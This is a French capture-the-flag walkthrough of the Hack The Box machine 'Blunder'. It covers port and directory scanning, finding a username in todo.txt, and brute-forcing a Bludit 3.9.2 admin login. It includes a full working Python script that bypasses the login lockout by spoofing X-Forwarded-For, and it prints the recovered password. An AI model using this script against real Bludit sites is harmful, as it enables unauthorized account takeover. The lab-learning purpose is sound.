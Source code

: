 # BLUNDER


## NMAP

Tout d'abord on fait un namp : `nmap -sC -sV -oN nmap 10.10.10.191
```
# Nmap 7.80 scan initiated Tue Jun  2 21:02:49 2020 as: nmap -sC -sV -oN nmap 10.10.10.191
Nmap scan report for 10.10.10.191
Host is up (0.019s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  2 21:05:15 2020 -- 1 IP address (1 host up) scanned in 146.22 seconds
```

## Dirb

On liste les directory du site : `dirb http://10.10.10.191/ -o dirb-tree.txt`
```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb-tree.tx
START_TIME: Tue Jun  9 19:06:26 2020
URL_BASE: http://10.10.10.191/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.191/ ----
+ http://10.10.10.191/0 (CODE:200|SIZE:7562)
+ http://10.10.10.191/about (CODE:200|SIZE:3281)
==> DIRECTORY: http://10.10.10.191/admin/
+ http://10.10.10.191/cgi-bin/ (CODE:301|SIZE:0)
+ http://10.10.10.191/LICENSE (CODE:200|SIZE:1083)
+ http://10.10.10.191/robots.txt (CODE:200|SIZE:22)
+ http://10.10.10.191/server-status (CODE:403|SIZE:277)
```

## WFUZZ

On peut essayer aussi avec l'outil wfuzz : `wfuzz -c -w /usr/share/wordlists/dirb/common.txt --hc 403,404 -u http://10.10.10.191/FUZZ.txt -t 50`
Ici wfuzz va chercher tous les fichiers commencant par les mots dans la wordlist et se finissant par .txt.
Ce qui nous donne :
```
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.191/FUZZ.txt
Total requests: 4614

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                      
===================================================================

000003435:   200        1 L      4 W      22 Ch       "robots"                                                                                                                     
000004079:   200        4 L      23 W     118 Ch      "todo"                                                                                                                       

Total time: 71.69578
Processed Requests: 4614
Filtered Requests: 4612
Requests/sec.: 64.35524
```

On trouve le fichier todo, on va dedans et on trouve un username : fergus


## Sur la page Internet
On va sur http://10.10.10.191/admin/
On voit que c'est un CMS, Bludit.

En cherchant dans le code source de la page, on trouve la version 3.9.2.
Et on cherche des exploits sur Bludit.

On trouve beaucoup de brute-force.

On voit que le site est assez bizzare, on va donc generer une wordlist avec les mot du site avec la commande : `cewl -w wordlist.txt -d 10 -m 1 http://10.10.10.191/`

On prend un script (python3 de préférence car le python c'est bien ;))
```python3
#!/usr/bin/env python3

import re
import requests

host = "http://10.10.10.191" # change to the appropriate URL

login_url = host + '/admin/login'
username = 'fergus' # Change to the appropriate username
fname = "/home/user/Documents/HTB/Blunder/wordlist.txt" #change this to the appropriate file you can specify the full path to the file

with open(fname) as f:
    content = f.readlines()
    word1 = [x.strip() for x in content] 
wordlist = word1

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

Une fois lancé on trouve le mot de passe : RolandDeschain



